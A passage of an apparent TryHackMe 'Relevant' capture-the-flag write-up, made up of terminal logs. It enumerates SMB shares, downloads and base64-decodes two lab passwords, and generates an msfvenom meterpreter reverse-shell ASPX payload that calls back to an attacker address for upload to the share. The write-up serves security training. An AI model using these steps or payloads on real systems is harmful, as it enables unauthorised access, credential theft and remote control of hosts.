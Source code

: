 ```
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2020-10-14T19:34:24
|_  start_date: 2020-10-14T19:29:46

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 211.45 seconds
```

```
bibo318@parrot:~/CTFs/tryhackme/Relevant$ smbclient -L //10.10.9.11
Enter WORKGROUP\kali's password:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        nt4wrksv        Disk
SMB1 disabled -- no workgroup available
bibo318@parrot:~/CTFs/tryhackme/Relevant$ smbclient //10.10.9.11/nt4wrksv
Enter WORKGROUP\kali's password:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat Jul 25 23:46:04 2020
  ..                                  D        0  Sat Jul 25 23:46:04 2020
  passwords.txt                       A       98  Sat Jul 25 17:15:33 2020

                7735807 blocks of size 4096. 4950835 blocks available
smb: \> get passwords.txt
getting file \passwords.txt of size 98 as passwords.txt (0.6 KiloBytes/sec) (average 0.6 KiloBytes/sec)
smb: \> exit
bibo318@parrot:~/CTFs/tryhackme/Relevant$ cat passwords.txt
[User Passwords - Encoded]
Qm9iIC0gIVBAJCRXMHJEITEyMw==
QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk

bibo318@parrot:~/CTFs/tryhackme/Relevant$ echo "Qm9iIC0gIVBAJCRXMHJEITEyMw==" | base64 -d
Bob - !P@$$W0rD!123

bibo318@parrot:~/CTFs/tryhackme/Relevant$ echo "QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk" | base64 -d
Bill - Juw4nnaM4n420696969!$$$
```

`Bob:!P@$$W0rD!123`

`Bill:Juw4nnaM4n420696969!$$$`

```
bibo318@parrot:~/CTFs/tryhackme/Relevant$ msfvenom -p windows/x64/meterpreter_reverse_tcp lhost=10.8.106.222 lport=4444 -f aspx -o shell.aspx
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 201283 bytes
Final size of aspx file: 1015556 bytes
Saved as: shell.aspx
bibo318@parrot:~/CTFs/tryhackme/Relevant$ smbclient //msfvenom -p windows/x64/meterpreter_reverse_tcp lhost=10.8.50.72 lport=4444 -f aspx -o shell.aspx^C
bibo318@parrot:~/CTFs/tryhackme/Relevant$ smbclient //10.10.9.11/nt4wrksv
Enter WORKGROUP\kali's password:
```